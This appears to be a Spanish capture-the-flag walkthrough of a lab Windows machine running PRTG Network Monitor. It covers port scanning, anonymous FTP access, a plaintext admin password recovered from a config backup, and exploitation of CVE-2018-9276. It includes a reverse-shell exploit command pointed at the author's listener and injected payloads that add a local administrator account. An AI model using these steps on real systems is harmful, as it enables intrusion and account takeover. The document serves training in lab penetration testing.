
Enumeración
Escaneo de puertos:
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.10.10.152
Host is up, received user-set (0.30s latency).
Scanned at 2024-09-11 11:12:22 -03 for 37s
Not shown: 63066 closed tcp ports (reset), 2456 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE REASON
21/tcp open ftp syn-ack ttl 127
80/tcp open http syn-ack ttl 127
135/tcp open msrpc syn-ack ttl 127
139/tcp open netbios-ssn syn-ack ttl 127
445/tcp open microsoft-ds syn-ack ttl 127
5985/tcp open wsman syn-ack ttl 127
47001/tcp open winrm syn-ack ttl 127
49664/tcp open unknown syn-ack ttl 127
49665/tcp open unknown syn-ack ttl 127
49666/tcp open unknown syn-ack ttl 127
49667/tcp open unknown syn-ack ttl 127
49668/tcp open unknown syn-ack ttl 127
49669/tcp open unknown syn-ack ttl 127
Detectamos versión y servicio de los puertos abiertos:
nmap -sCV -p21,80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669 10.10.10.152
Host is up (0.29s latency).
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
| ftp-syst:
|_ SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19 12:18AM 1024 .rnd
| 02-25-19 10:15PM <DIR> inetpub
| 07-16-16 09:18AM <DIR> PerfLogs
| 02-25-19 10:56PM <DIR> Program Files
| 02-03-19 12:28AM <DIR> Program Files (x86)
| 02-03-19 08:08AM <DIR> Users
|_11-10-23 10:20AM <DIR> Windows
80/tcp open http Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-server-header: PRTG/18.1.37.13946
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49668/tcp open msrpc Microsoft Windows RPC
49669/tcp open msrpc Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
Host script results:
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb2-time:
| date: 2024-09-11T14:15:07
|_ start_date: 2024-09-11T14:09:44
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled but not required
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
Servicio FTP
El usuario anonymous está habilitado en el servicio FTP. Si lo navegamos, dentro de Users/Public/Desktop, encontramos el archivo users.txt con la primera flag.

Servicio SMB
Intentamos conectarnos utilizando una null session pero sin éxito.
Si usamos netexec vemos mas información respecto al sistema operativo:
netexec smb 10.10.10.152

Si intentamos listar los recursos compartidos, da error:

Con smbclient tampoco tenemos éxito:

Servicio HTTP
Si accedemos a la web, vemos que está corriendo la aplicación de PRTG Network Monitor. Debajo de todo, vemos que estamos en la versión 18.1.37.13946.

Buscamos credenciales por default y vemos que son prtgadmin / prtgadmin, aunque no tenemos éxito.
Intrusión
Si buscamos exploits para PRTG, vemos uno que nos permite ejecución remota de código:

No es exactamente la misma versión que en la que estamos, aunque como estamos en una inferior podríamos probarlo. De todas maneras, requerimos autenticación y por el momento no tenemos.
Investigando en internet, vemos que PRTG guarda su configuración por default en %programfiles%/Paessler/PRTG Desktop. Volvemos al FTP y la buscamos en este directorio pero no la encontramos. Seguimos buscando, y vemos que está dentro de ProgramData/Paessler/PRTG Network Monitor.
Dentro vemos lo siguiente. Nos descargamos los archivos PRTG Configuration:

Navegándolos vemos que dentro del que tiene la extensión .bak posee credenciales en texto plano:
</dbcredentials>
<dbpassword>
<!-- User: prtgadmin -->
PrTg@dmin2018
</dbpassword>
Con estas credenciales intento loguearme al panel web, pero sin éxito. Como se trata de un backup, quizás es viejo. Probamos cambiar el año por 2019 y conectamos!

Ahora que tenemos credenciales válidas, vamos a intentar ejecutar el exploit que vimos antes. Lo descargamos, pero vemos que lo que hace es crear un nuevo usuario dentro del grupo administadores:

Esto no me interesa demasiado. De todas formas, nos da también información del CVE asociado: CVE-2018-9276.
Buscamos otros exploits públicos en internet y damos con el siguiente: https://github.com/A1vinSmith/CVE-2018-9276. Lo descargamos. Se ejecuta de la siguiente manera:
./exploit.py -i targetIP -p targetPort --lhost hostIP --lport hostPort --user user --password pass
Nos quedamos a la escucha con el módulo multi/handler de Metasploit y lo ejecutamos de la siguiente manera:
./exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.14.21 --lport 443 --user prtgadmin --password PrTg@dmin2019

Obtenemos la sesión:

En este punto ya tenemos los máximos privilegios sobre la PC, por lo que no hace falta escalar. Podemos ver la segunda flag:

Viéndolo más a detalle, la vulnerabilidad se da Setup -> Notifications -> Add new notification. Nos basamos en este sitio.
Si bajamos un poco y seleccionamos Execute Program, el comando que queremos inyectar se escribe en Parameter, luego de escaparlo con ; . En el ejemplo, nos plantean lo siguiente:
test.txt;net user pentest p3nT3st! /add
Por lo que podríamos intentar crear un usuario propio:
test.txt;net user aimhoff aimhoff123! /add; net localgroup Administrators aimhoff /add

Y luego conectarnos con esas credenciales a la máquina.